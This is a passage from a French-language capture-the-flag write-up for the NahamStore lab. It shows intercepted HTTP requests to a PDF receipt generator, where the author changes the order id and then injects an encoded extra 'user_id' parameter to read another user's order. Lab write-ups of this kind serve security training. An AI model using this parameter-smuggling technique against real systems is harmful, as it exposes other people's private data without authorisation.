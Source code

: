 **Order ID 3 date and time**

![page19](./Task1-19.png) 

On clique sur PDF Receipt.   

```text
POST /pdf-generator HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://nahamstore.thm/account/orders/9
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://nahamstore.thm
Connection: close
Cookie: session=f0fa5b764d375d57b28ed677df585acd; token=a9c98205da77e394be444c1639c50061
Upgrade-Insecure-Requests: 1

what=order&id=9
```

On intercepte la requète avec Burp. 
On voit what=order&id=9  
On change la valeur de id par 3 

On a une message d'erreur : Order does not belong to this user_id

Le message nous dit que la commande n'appartient pas à l'utilisateur.  

```text
POST /pdf-generator HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://nahamstore.thm/account/orders/9
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://nahamstore.thm
Connection: close
Cookie: session=f0fa5b764d375d57b28ed677df585acd; token=a9c98205da77e394be444c1639c50061
Upgrade-Insecure-Requests: 1

what=order&id=3%26user_id=3
```
